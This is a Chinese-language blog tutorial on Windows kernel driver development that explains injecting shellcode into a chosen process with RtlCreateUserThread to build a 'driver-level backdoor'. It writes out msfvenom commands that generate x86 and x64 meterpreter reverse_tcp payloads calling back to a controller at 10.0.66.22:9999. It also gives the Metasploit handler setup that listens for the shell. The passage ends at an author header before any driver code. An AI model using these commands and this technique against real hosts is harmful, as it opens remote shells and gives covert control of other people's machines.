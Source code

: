 ```yaml
---
layout: post
title: "驱动开发：内核ShellCode线程注入"
date: "2023-06-14T01:14:47.864Z"
---
```

驱动开发：内核ShellCode线程注入
====================

还记得\`《驱动开发：内核LoadLibrary实现DLL注入》\`中所使用的注入技术吗，我们通过\`RtlCreateUserThread\`函数调用实现了注入DLL到应用层并执行，本章将继续探索一个简单的问题，如何注入\`ShellCode\`代码实现反弹Shell，这里需要注意一般情况下\`RtlCreateUserThread\`需要传入两个最重要的参数，一个是\`StartAddress\`开始执行的内存块，另一个是\`StartParameter\`传入内存块的变量列表，而如果将\`StartParameter\`地址填充为\`NULL\`则表明不传递任何参数，也就是只在线程中执行\`ShellCode\`代码，利用这个特点我们就可以在上一篇文章的基础之上简单改进代码即可实现驱动级后门注入的功能。

还记得`《驱动开发：内核LoadLibrary实现DLL注入》`中所使用的注入技术吗，我们通过`RtlCreateUserThread`函数调用实现了注入DLL到应用层并执行，本章将继续探索一个简单的问题，如何注入`ShellCode`代码实现反弹Shell，这里需要注意一般情况下`RtlCreateUserThread`需要传入两个最重要的参数，一个是`StartAddress`开始执行的内存块，另一个是`StartParameter`传入内存块的变量列表，而如果将`StartParameter`地址填充为`NULL`则表明不传递任何参数，也就是只在线程中执行`ShellCode`代码，利用这个特点我们就可以在上一篇文章的基础之上简单改进代码即可实现驱动级后门注入的功能。

*   被控主机IP: 10.0.66.11
*   控制主机IP: 10.0.66.22

为了能实现反弹后门的功能，我们首先需要使用`Metasploit`工具生成一段`ShellCode`代码片段，以32位为例，生成32为反弹代码。

    [root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
    -b '\x00\x0b' lhost=10.0.66.22 lport=9999 -f c
    
    [root@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
    -b '\x00\x0b' lhost=10.0.66.22 lport=9999 -f c
    

生成ShellCode代码片段如下图所示；

![](https://img2023.cnblogs.com/blog/1379525/202303/1379525-20230303131525860-1976266358.png)

其次服务端需要侦听特定端口，配置参数如下所示；

    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set exitfunc thread
    msf6 exploit(multi/handler) > set lhost 10.0.66.22
    msf6 exploit(multi/handler) > set lport 9999
    msf6 exploit(multi/handler) > exploit
    

服务端执行后则会进入侦听等待阶段，输出效果图如下所示；

![](https://img2023.cnblogs.com/blog/1379525/202303/1379525-20230303131735674-625880971.png)

此时我们使用如下代码片段，并自行修改进程`PID`为指定目标进程，编译生成驱动程序；

    // 署名权
    // right to sign one's name on a piece of work
    // PowerBy: LyShark
    // Email: me@lyshark.com
    